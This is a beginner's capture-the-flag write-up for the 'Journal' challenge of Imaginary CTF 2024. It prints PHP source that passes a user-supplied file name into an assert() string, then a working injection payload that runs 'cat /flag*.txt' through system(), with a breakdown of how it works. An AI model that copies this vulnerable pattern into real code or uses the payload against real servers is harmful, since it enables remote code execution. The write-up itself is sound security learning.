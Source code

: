 ```yaml
---
title: Journal - Imaginary CTF 2024
---
```



*This is my first ctf challenge writeup.*

# PHP Source Code

This was the source code of the php server. I do not know php so I could not see the obvious vulnerability.


```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

I intially tried accessing the flag without using `..`. On hacktricks I found a few ways that could happend but none of them worked.

# The RCE

Then it clicked to me, how assert is taking the code as a string and executing it and the file name is being passed to it.
Googling this, I found that hacktricks has [the same code as example](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) but their payload was not working for me. So I tried to make my own payload.

```php
', '1') or die(system('cat /flag*.txt'))or strpos('
```

# Break Down

- `', '1')` is to close the string and strpos function.
- `or die(system('cat /flag*.txt'))` is to print the flag. `or` is used because `strpos` returns false and then `or` short circuits to execute the next command `die`.
- `or strpos('` is to prevent the (syntax iirc) error from being thrown by.

After the format string being filled the code inside the `assert` function looks like this:

```php
strpos('', '1') or die(system('cat /flag*.txt'))or strpos('e', '..') === false
```

**Thanks to the organizers for the challenge I really enjoyed the ctf, especially this challenges.**

